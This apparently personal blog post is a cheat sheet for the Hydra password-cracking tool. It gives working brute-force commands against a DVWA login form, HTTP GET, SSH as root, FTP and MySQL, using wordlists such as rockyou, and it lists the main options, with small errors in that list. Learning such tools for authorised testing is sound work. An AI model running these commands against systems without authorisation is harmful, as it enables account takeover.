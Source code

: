 ```yaml
---
title: Hydra
date: 2022-08-03 21:55:00 +0800
categories: [Tools]
tags: [Hydra, SSH, FTP, MySQL, Web]
pin: false
author: GRX6
layout: post
---
```


![hydra-pass](/assets/images/posts/hydra-contrasenas.webp)

## Web forms

To launch password attacks in forms using `http-post-form` and injecting the variables like `^USER^`. The data in the request can be obtained using Chrome dev tools or `Burpsuite`.

```console
hydra -l admin -P /usr/share/jonh/password.lst 10.0.2.6 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&login=Login:Login failed" -f
```

The options are:

-   `-u` username
-   `-L` user list
-   `-p` password
-   `-P` passwordList
-   `-f` exit at the first successful result server, where to attack service
-   `t` number of threads to run in parallel
-   `http-post-form` service.

Another example with `http-get`

```console
hydra -l admin -P pass.txt $TARGET http-get /webdav
```

## SSH

We use the `ssh` service.

```console
hydra -l root -P /usr/share/wordlists/rockyou.txt.gz $TARGET ssh
```

## FTP

```console
hydra -t 4 -l Mike -P /usr/share/wordlists/rockyou.txt -vV $TARGET ftp
```

## MySQL

```console
hydra -t 4 -l root -P /usr/share/wordlists/rockyou.txt $TARGET mysql
```
